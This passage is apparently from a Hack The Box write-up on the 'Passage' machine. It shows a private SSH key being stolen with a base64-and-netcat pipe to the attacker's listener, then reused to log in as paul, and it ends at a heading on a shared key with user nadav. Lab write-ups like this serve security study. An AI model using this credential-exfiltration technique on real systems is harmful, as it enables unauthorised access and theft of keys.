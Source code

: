 ## Elevating Priv: paul -> nadav

### SSH access

We are unable to SSH as paul as it requires auth key.

```shell
cfx:  ~/Documents/htb/passage
→ ssh paul@10.10.10.206
paul@10.10.10.206: Permission denied (publickey).
```

Grabbing Paul's SSH key:

```shell
paul@passage:~/.ssh$ base64 id_rsa | nc -w 5 10.10.14.11 8050

cfx:  ~/Documents/htb/passage
→ nc -lvnp 8050 | base64 -d > id_rsa
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::8050
Ncat: Listening on 0.0.0.0:8050
Ncat: Connection from 10.10.10.206.
Ncat: Connection from 10.10.10.206:33184.
```

Now we can SSH as paul using the private key

```shell
cfx:  ~/Documents/htb/passage
→ chmod 600 id_rsa

cfx:  ~/Documents/htb/passage
→ ssh -i id_rsa paul@10.10.10.206
paul@passage:~$ id
uid=1001(paul) gid=1001(paul) groups=1001(paul)
```

### Enumeration

Going around the ssh directory we find something weirdly interesting:

```shell
paul@passage:~/.ssh$ ls
authorized_keys  id_rsa  id_rsa.pub  known_hosts
paul@passage:~/.ssh$ cat authorized_keys
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCzXiscFGV3l9T2gvXOkh9w+BpPnhFv5AOPagArgzWDk9uUq7/4v4kuzso/lAvQIg2gYaEHlDdpqd9gCYA7tg76N5RLbroGqA6Po91Q69PQadLsziJnYumbhClgPLGuBj06YKDktI3bo/H3jxYTXY3kfIUKo3WFnoVZiTmvKLDkAlO/+S2tYQa7wMleSR01pP4VExxPW4xDfbLnnp9zOUVBpdCMHl8lRdgogOQuEadRNRwCdIkmMEY5efV3YsYcwBwc6h/ZB4u8xPyH3yFlBNR7JADkn7ZFnrdvTh3OY+kLEr6FuiSyOEWhcPybkM5hxdL9ge9bWreSfNC1122qq49d nadav@passage

```

The entry at the end say `nadav@passage` which makes us wonder whether it's a shared key concept.

### SSH - nadav
